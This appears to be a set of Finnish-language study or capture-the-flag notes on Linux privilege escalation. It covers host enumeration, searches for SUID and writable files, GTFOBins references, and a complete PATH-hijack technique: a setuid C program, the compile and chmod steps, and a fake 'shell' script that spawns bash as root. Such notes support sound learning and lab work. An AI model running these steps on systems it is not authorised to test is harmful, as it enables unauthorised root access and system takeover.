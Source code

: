 ## Privilege Escalation

Käyttöoikeuksien nostaminen tapahtuu, kun ensimmäinen jalansija ja alhaisen tason käyttäjätunnus on saatu haltuun.
Tavoite on saada lisää oikeuksia ja päästä mahdollisesti liikkumaan kohdejärjetelmän osiin, joihin ensimmäisellä kaapatulla käyttäjätunnuksella ei välttämättä ole oikeuksia.
Ideaalitavoite on saada root- (Linux) tai Administrator- (Windows) tason oikeudet.

Käyttöoikeuksia voidaan nostaa monella tavalla, riippuen kohdejärjestelmästä.
Usein käyttöoikeuksien nostamisen mahdollistaa väärin konfiguroidut käyttöoikeudet tai haavoittuvat järjestelmän osat.

**Kohdejärjestelmän kartoitus**
```bash
hostname ## Voi löytyä tietoa järjestelmän käyttötarkoituksesta
uname -a ## Kernel -versio
cat /etc/issue ## Voi löytyä tietoa käyttöjärjestelmästä 
cat /proc/version ## Tietoa prosesseista, kernelistä, ja esim. onko compiler (esim. gcc) asennettu
ps ## Process Status, pyörivät prosessit. "ps -A" = kaikki, "ps axjf" = prosessipuu
env ## Ympäristömuuttujat, esim. PATH
sudo -l ## Kaikki komennot, jota käyttäjä voi ajaa sudona
ls -la ## Normaali ls ei näytä piilotettuja tiedostoja
id ## Käyttäjän tiedot ja ryhmä
ifconfig ## Verkkoliikennetietoja
netstat ## Muodostetut yhteydet, "netstat -a" = Kaikki, "netstat -l" = Yhteydettä odottavat. Voi lisätä t (TCP) tai u (UDP), esim. "netstat -at"
```
Find -komentoja (lisää loppuun 2>/dev/null, siistii virheviestit pois)
```bash
find / -name flag1.txt ## Etsi tiedosto flag1.txt
find / -type d -name config ## Etsi kansio config
find / -type f -perm 0777 ## Luku, kirjoitus, suorita -tiedostot kaikille käyttäjille
find / -perm a=x ##  Suoritettavat tiedostot
find / -perm -u=s -type f ## SUID -bittiset tiedostot 
```

**Kernel-haavoittuvuudet**

https://www.linuxkernelcves.com/cves

**Sudo-haavoittuvuudet**
Listaa käyttäjän sudo-oikeudella ajettavat ohjelmat:
```bash
sudo -l
```
Jos löytyy jotain, täältä hyväksikäyttötavat:
https://gtfobins.github.io/

**SUID-haavoittuvuudet**

SUID -bitti suorittaa ohjelman aina ohjelman omistajan oikeuksilla, riippumatta ajajasta.
Ohjelmat, joissa SUID-bitti asetettu:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
Jos löytyy mielenkiintoisen näköisiä, tarkistetaan GTFObinsistä.

**PATH -haavoittuvuudet**
```bash
echo $PATH
```
Kansiot, joihin kirjoitusoikeus:
```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u
```
Jos PATH-muuttujassa on kansio, johon käyttäjä pääsee kirjoittamaan, voidaan ko. kansiosta ajaa ohjelma root-oikeuksilla.

Kansion lisääminen PATH-muuttujaan:
```bash
export PATH=/tmp:$PATH
```
Alla oleva ohjelma "suid_exploit" etsii PATH-kansioista "shell" -nimistä ohjelmaa:

```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("shell");
}
```
Compile ja aseta SUID-bitti
```bash
gcc suid_exploit.c -o suid_exploit -w
chmod u+s suid_exploit
```
Shell-scripti lisätään PATH-muuttujasta löytyvään kansioon, johon käyttäjällä on kirjoitusoikeudet:
```bash
echo "/bin/bash" > shell
chmod 777 shell
```
Lopuksi ajetaan suid_exploit:
```bash
./suid_exploit
```
